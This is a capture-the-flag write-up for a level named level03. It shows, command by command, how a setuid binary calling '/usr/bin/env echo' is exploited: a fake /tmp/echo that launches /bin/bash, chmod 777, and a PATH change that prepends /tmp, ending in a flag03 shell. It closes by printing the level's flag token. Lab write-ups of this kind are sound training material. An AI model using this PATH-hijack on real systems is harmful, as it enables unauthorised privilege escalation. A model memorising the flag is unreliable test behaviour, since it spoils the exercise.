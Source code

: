 `ls -l` <br/>
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

`whoami` <br/>
level03

`groups` <br/>
level03 users

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

How can I make this program run getflag ?

`./level03` <br/>
Exploit me

`strings level03` <br/>
...<br/>
/usr/bin/env echo Exploit me<br/>
...<br/>

https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
We can see the program calls the echo function. The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line

`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`

If we make our fake echo function then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

`echo "/bin/bash" > /tmp/echo` <br/>
Create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission

`chmod 777 /tmp/echo` <br/>
otherwise the file is `-rw-rw-r-- 1 level03 level03 10 Sep 22 02:19 /tmp/echo` and flag03 can't execute it


`export PATH=/tmp:$PATH` <br/>
We added tmp directory at the start of the path. Do command `env` and see path went from: <br/>
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games<br/>
to <br/>
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games


`./level03`

You are now flag3 because you "opened" a new shell with the rights of flag03

`getflag` gives `qi0maab88jeaj46qoumi7maus`

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

